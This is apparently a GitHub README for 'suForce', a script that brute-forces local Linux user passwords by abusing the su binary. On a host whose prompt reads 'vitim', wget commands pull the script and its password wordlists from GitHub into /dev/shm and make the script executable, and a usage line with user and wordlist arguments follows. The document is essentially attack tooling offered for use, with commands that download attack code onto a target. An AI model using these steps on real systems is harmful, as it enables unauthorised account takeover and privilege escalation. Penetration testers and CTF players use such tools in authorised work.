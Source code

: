 # suForce

**`suForce` performs `brute force` attacks on user `passwords` by abusing the `su` binary.**

![](/screenshot.png)

- <kbd>Download</kbd>

suForce

```cmd
user@vitim:~$ cd /dev/shm
user@vitim:~$ wget -q "https://raw.githubusercontent.com/d4t4s3c/suForce/main/suForce.sh"
user@vitim:~$ wget -q "https://raw.githubusercontent.com/d4t4s3c/suForce/main/techyou.txt"
user@vitim:~$ wget -q "https://raw.githubusercontent.com/d4t4s3c/suForce/main/top12000.txt"
user@vitim:~$ chmod +x suForce.sh
```

- <kbd>Use</kbd>

```cmd
user@vitim:~$ ./suForce.sh -u <USER> -w <WORDLIST>
```

---
